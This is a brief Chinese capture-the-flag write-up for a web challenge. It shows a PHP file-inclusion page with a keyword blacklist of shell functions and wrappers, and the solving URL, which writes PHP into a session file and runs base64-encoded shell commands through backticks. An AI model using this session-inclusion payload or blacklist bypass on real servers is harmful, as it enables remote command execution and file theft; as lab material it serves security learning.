 # 安全检测

Assign: su an, Richmond Phantom
Status: Completed
Tag: WEB

相关资料/地址

### 过程

![%E5%AE%89%E5%85%A8%E6%A3%80%E6%B5%8B%20d9f770ac241f4aa49c9eb3db61fdfee5/Untitled.png](/assets/%E5%AE%89%E5%85%A8%E6%A3%80%E6%B5%8B%20d9f770ac241f4aa49c9eb3db61fdfee5/Untitled.png)

请求的url后会写到session里请求的不能有空格 否则无法预览 页面 扫端口无果

一头雾水 然后队友发现admin(有一说一 这题目真的脑瘫

![%E5%AE%89%E5%85%A8%E6%A3%80%E6%B5%8B%20d9f770ac241f4aa49c9eb3db61fdfee5/Untitled%201.png](/assets/%E5%AE%89%E5%85%A8%E6%A3%80%E6%B5%8B%20d9f770ac241f4aa49c9eb3db61fdfee5/Untitled%201.png)

```python
<?php
$u=$_GET['u'];

$pattern = "\/\*|\*|\.\.\/|\.\/|load_file|outfile|dumpfile|sub|hex|where";
$pattern .= "|file_put_content|file_get_content|fwrite|curl|system|eval|assert";
$pattern .="|passthru|exec|system|chroot|scandir|chgrp|chown|shell_exec|proc_open|proc_get_status|popen|ini_alter|ini_restore";
$pattern .="|`|openlog|syslog|readlink|symlink|popepassthru|stream_socket_server|assert|pcntl_exec|http|.php|.ph|.log|\@|:\/\/|flag|access|error|stdout|stderr";
$pattern .="|file|dict|gopher";
//累了累了，饮茶先

$vpattern = explode("|",$pattern);

foreach($vpattern as $value){    
    if (preg_match( "/$value/i", $u )){
        echo "检测到恶意字符";
        exit(0);
    }
}

include($u);

show_source(__FILE__);
?>
```

直接文件包含session就好了 没空格就用$_GET

```
http://127.0.0.1/admin/include123.php?u=/tmp/sess_00caa6eb6466d7285aea5af21eb5f6a1&a=<?php;$a=base64_decode($_GET[0]);echo`$a`;?>&0=bHMgLztjYXQgLyo=
```

![%E5%AE%89%E5%85%A8%E6%A3%80%E6%B5%8B%20d9f770ac241f4aa49c9eb3db61fdfee5/Untitled%202.png](/assets/%E5%AE%89%E5%85%A8%E6%A3%80%E6%B5%8B%20d9f770ac241f4aa49c9eb3db61fdfee5/Untitled%202.png)

### FLAG

`flag{xx}`